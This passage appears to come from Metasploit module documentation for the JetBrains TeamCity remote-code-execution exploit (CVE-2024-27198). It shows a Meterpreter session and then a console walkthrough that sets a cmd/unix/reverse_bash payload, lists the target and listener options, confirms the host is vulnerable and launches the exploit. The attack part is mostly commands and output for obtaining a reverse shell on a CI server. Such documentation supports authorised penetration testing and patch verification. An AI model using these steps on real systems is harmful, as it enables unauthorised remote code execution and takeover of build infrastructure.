 ```
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/opt/TeamCity/bin
meterpreter > 
```

### Unix Command

This target is suitable for targeting Linux, OSX, or any of the unofficially supported platforms such as
Solaris, FreeBSD and so on.

Note: Ensure the target is a Unix-like target by confirming via the `check` command.

```
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set target 4
target => 4
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.86.43    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              8111             yes       The target port (TCP)
   SSL                false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                yes       The base path to TeamCity
   TEAMCITY_ADMIN_ID  1                yes       The ID of an administrator account to authenticate as
   VHOST                               no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   CreateSession  true             no        Create a new session for every successful login
   LHOST          eth0             yes       The listen address (an interface may be specified)
   LPORT          4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   4   Unix Command



View the full module info with the info, or info -d command.

msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > check
[+] 192.168.86.43:8111 - The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
```